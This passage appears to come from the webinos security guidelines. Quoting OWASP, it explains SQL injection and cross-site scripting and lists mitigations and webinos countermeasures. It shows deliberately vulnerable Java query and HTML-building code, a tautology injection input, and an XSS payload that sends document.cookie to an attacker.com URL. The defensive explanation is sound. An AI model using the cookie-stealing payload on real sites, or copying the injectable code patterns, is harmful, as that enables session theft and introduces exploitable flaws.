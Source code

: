     String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") +"'";

The attacker modifies the ‘id’ parameter in their browser

    http://example.com/app/accountView?id=' or '1'='1

OWASP proposes the following mitigations for dealing with this threat.

1.  Use a safe API which avoids the use of the interpreter entirely or
    provides a parametrized interface.
2.  Carefully escape special characters using the specific escape syntax
    for that interpreter.
3.  Positive or “white list” input validation with appropriate
    "canonicalization".

Based on these proposals, the following webinos countermeasures are
proposed.

1.  Secure code best practices should be adopted by webinos developers.
    See [Further Security and Privacy
    Guidelines](Further%20Security%20and%20Privacy%20Guidelines.html)
    section for more information.
2.  webinos applications should be tested with defined patterns of
    improperly formatted input data.

#### Cross-Site Scripting (XSS)[¶](#Cross-Site-Scripting-XSS)

This occurs whenever an application takes untrusted data and sends them
to a web browser without proper validation and/or escaping

An example of this threat is illustrated below:

    (String) page += "<input name='creditcard' type='TEXT‘ value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in their browser to:

    '><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'

OWASP proposes the following mitigations for dealing with this threat/

1.  Properly escape all untrusted data based on the HTML context (body,
    attribute, JavaScript, CSS, or URL) that the data will be placed
    into.
2.  Positive or “white-list” input validation, but is not a complete
    defense as many applications must accept special characters.
3.  Consider employing Mozilla's new Content Security Policy (Firefox 4)
    to defend against XSS.

Because this threat enables improper cross-application injection and
data access, the following webinos countermeasures are proposed.

1.  Secure code best practices should be adopted by webinos developers.
    See [Further Security and Privacy
    Guidelines](Further%20Security%20and%20Privacy%20Guidelines.html)
    section for more information.
2.  webinos applications should be tested against defined patterns of
    improperly formatted input data.
3.  webinos runtime could support Mozilla's Content Security Policy.
